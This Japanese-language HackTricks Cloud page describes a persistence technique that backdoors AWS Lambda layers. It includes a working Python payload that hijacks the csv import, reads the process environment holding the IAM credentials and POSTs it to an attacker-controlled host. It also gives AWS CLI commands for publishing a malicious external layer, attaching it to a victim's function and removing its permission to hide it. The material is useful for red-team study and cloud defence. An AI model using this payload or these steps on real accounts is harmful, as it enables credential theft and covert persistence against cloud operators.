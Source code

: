 # AWS - Lambda Layers Persistence

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社の広告を見たい**場合や、**PEASSの最新バージョンをダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローする 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## Lambda Layers

Lambdaレイヤーは、追加のコードやその他のコンテンツを含む**.zipファイルアーカイブ**です。レイヤーには、ライブラリ、[カスタムランタイム](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html)、データ、または設定ファイルを含めることができます。

1つの関数には最大で**5つのレイヤー**を含めることができます。レイヤーを関数に含めると、**コンテンツは実行環境の`/opt`ディレクトリに展開**されます。

**デフォルトでは**、作成したレイヤーはAWSアカウントに**プライベート**です。レイヤーを他のアカウントと**共有**するか、レイヤーを**パブリック**にすることができます。別のアカウントが公開したレイヤーを関数が使用している場合、関数は**レイヤーバージョンを削除した後や、レイヤーへのアクセス許可が取り消された後も、レイヤーバージョンを引き続き使用**することができます。ただし、削除されたレイヤーバージョンを使用して新しい関数を作成したり、関数を更新することはできません。

コンテナイメージとしてデプロイされた関数は、レイヤーを使用しません。代わりに、イメージをビルドする際に、好みのランタイム、ライブラリ、およびその他の依存関係をコンテナイメージにパッケージ化します。

### Pythonのロードパス

LambdaでPythonが使用するロードパスは次のとおりです：
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
**第二**と**三**の**位置**は、**Lambdaレイヤー**がファイルを展開するディレクトリによって占有されています：**`/opt/python/lib/python3.9/site-packages`**と**`/opt/python`**

{% hint style="danger" %}
攻撃者が使用されているLambda **レイヤーにバックドアを仕掛けたり、実行時に一般的なライブラリがロードされると任意のコードを実行する**ようなレイヤーを追加した場合、攻撃者は各Lambda呼び出しで悪意のあるコードを実行できます。
{% endhint %}

したがって、要件は次のとおりです：

* 被害者のコードで**ロードされるライブラリを確認する**
* Lambdaレイヤーを使用して**カスタムコードを実行し、元の**ライブラリを**ロードする**プロキシライブラリを作成する。

### 事前にロードされたライブラリ

{% hint style="warning" %}
このテクニックを悪用する際に困難に直面しました：実行時にPythonランタイム内で**すでにロードされているライブラリ**がいくつかありました。`os`や`sys`のようなものを見つけることを期待していましたが、**`json`ライブラリさえもロードされていました**。\
この永続化テクニックを悪用するためには、コードが実行される際に**まだロードされていない新しいライブラリをロードする**必要があります。
{% endhint %}

次のようなPythonコードを使用すると、Lambda内のPythonランタイムで**事前にロードされたライブラリのリスト**を取得できます：
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
そして、これが**リスト**です（`os`や`json`などのライブラリが既に存在するか確認してください）。
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
そして、以下は**Lambdaにデフォルトでインストールされているライブラリのリスト**です：[https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambdaレイヤーのバックドア

この例では、対象のコードが**`csv`**をインポートしていると仮定します。**`csv`ライブラリのインポートにバックドアを仕掛けます**。

そのために、lambdaによってロードされるパスに、ディレクトリ**csv**とその中にファイル**`__init__.py`**を作成します。パスは次のようになります：**`/opt/python/lib/python3.9/site-packages`**\
そして、lambdaが実行され、**csv**をロードしようとすると、**`__init__.py`ファイルがロードされて実行されます**。\
このファイルは以下のことを行う必要があります：

* ペイロードを実行する
* 元のcsvライブラリをロードする

これらの両方を次のように行うことができます：
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
次に、このコードを**`python/lib/python3.9/site-packages/__init__.py`**のパスに含むzipファイルを作成し、それをLambdaレイヤーとして追加します。

このコードは[**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)で見つけることができます。

統合されたペイロードは、**最初に呼び出される時またはLambdaコンテナのリセット後（コードの変更やコールドLambda）にIAMクレデンシャルをサーバーに送信**しますが、以下のような**他のテクニック**も統合することができます：

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### 外部レイヤー

注意すべきは、**外部アカウントのLambdaレイヤーを使用することができる**ということです。さらに、Lambdaはパーミッションを持っていなくても、外部アカウントのレイヤーを使用することができます。\
また、Lambdaが持つことができるレイヤーの最大数は5です。

したがって、このテクニックの柔軟性を向上させるために、攻撃者は次のことができます：

* ユーザーの既存のレイヤーにバックドアを仕掛ける（何も外部ではない）
* **自分のアカウントで**レイヤーを**作成**し、**被害者アカウントにアクセス権限**を与えてレイヤーを使用できるようにし、被害者のLambdaで**レイヤーを設定**し、**権限を削除**する。
* Lambdaは引き続きレイヤーを使用でき、被害者はレイヤーのコードを**簡単にダウンロードする方法を持たなくなります**（Lambda内でリバースシェルを取得する以外）。
* 被害者は**`aws lambda list-layers`**で使用されている外部レイヤーを見ることはありません。

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* もし、あなたの**会社をハックトリックで宣伝したい**場合や、**最新版のPEASSを入手したい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆ハックトリックのグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしてください🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **ハッキングのトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>
